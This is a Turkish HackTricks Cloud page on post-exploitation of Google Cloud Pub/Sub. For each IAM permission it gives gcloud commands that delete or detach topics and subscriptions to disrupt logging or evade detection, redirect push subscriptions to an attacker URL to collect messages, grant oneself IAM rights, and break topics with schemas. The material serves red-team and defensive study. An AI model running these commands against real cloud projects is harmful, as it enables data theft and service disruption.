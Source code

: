 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfayı kontrol edin:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuda bir mesaj yayınlayın, **beklenmedik veriler göndermek** ve beklenmedik işlevleri tetiklemek veya zafiyetleri istismar etmek için kullanışlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Bir aboneliğin mesaj almasını önlemek için faydalıdır, belki de tespiti önlemek için.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını önlemek için faydalıdır, belki de tespiti önlemek için.\
Bir konuya bağlı abonelikler olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Bu izni, konuyu bozmak için bazı ayarları güncellemek için kullanın, örneğin `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Önceki saldırılardan herhangi birini gerçekleştirmek için kendinize izin verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusundaki tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu **mesajları çekmek** için kullanın:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek**, bir günlük işleme sistemini veya benzeri bir şeyi bozmak için faydalı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Bu izni, mesajların erişebileceğiniz bir yerde (URL, Big Query tablosu, Bucket) saklanması için bazı ayarları güncellemek veya sadece bunu bozmak için kullanın.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Önceki yorumlanan saldırıları gerçekleştirmek için gerekli izinleri kendinize verin.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya ekleyin, böylece mesajlar onu karşılamaz ve bu nedenle konu bozulur.\
Eğer hiç şema yoksa, bir tane oluşturmanız gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Bu, bir şemayı silmek gibi görünebilir, böylece şemaya uymayan mesajlar gönderebilirsiniz. Ancak, şema silineceği için hiçbir mesaj aslında konuya girmeyecek. Bu nedenle bu **ANLAMSIZDIR**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Önceki yorumlanan saldırıları gerçekleştirmek için gereken izinleri kendinize verin.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Bu, tüm onaylanmamış mesajların bir anlık görüntüsünü oluşturacak ve bunları aboneliğe geri koyacaktır. Bir saldırgan için çok faydalı değil ama burada:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
